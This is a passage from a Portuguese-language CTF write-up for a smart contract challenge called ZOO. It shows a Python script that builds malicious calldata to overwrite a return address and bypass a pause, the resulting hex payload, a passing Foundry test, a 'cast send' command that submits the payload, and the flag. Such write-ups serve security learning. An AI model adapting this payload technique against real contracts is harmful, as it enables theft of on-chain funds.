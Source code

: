 ```
    # número mágico
    name = "5fd43c02f6abee0f86a44e719df2622bbeba666f1abf777702c51962ae225299"

    animal = op + idx + f"{len(name) // 2:04x}" + index + name
    return animal

def create_empty_animals(n):
    op = "10"
    idx = "01"
    index = "eeee"
    name = ""

    animal = op + idx + f"{len(name) // 2:04x}" + index + name
    return n * animal

final = create_evil_animal() + create_empty_animals(8) + overwrite_ret()
print(final)
```

Rodando esse script obtemos:
```
1000002003205fd43c02f6abee0f86a44e719df2622bbeba666f1abf777702c51962ae22529910010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee2007210080000000000000000000000000000000000000000000000000000000000000ffff000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000323
```

Colocando esse valor no nosso contrato de testes,
vemos que deu tudo certo e `isSolved` foi setado pra 1 como queríamos.
```
$ forge test -vv

[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/ZOO.t.sol:ZOOTest
[PASS] test_bypass_pause() (gas: 458630)
Logs:
  Success

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.03ms (297.42µs CPU time)

Ran 1 test suite in 5.17ms (1.03ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

Na hora de resolver o chall no CTF de verdade,
podemos usar o `cast send` pra mandar nosso payload como calldata.
```
cast send --rpc-url $rpc --private-key $private $zoo 0x1000002003205fd43c02f6abee0f86a44e719df2622bbeba666f1abf777702c51962ae22529910010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee10010000eeee2007210080000000000000000000000000000000000000000000000000000000000000ffff000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000323
```

Flag: `SEKAI{super-duper-memory-master-:3}`
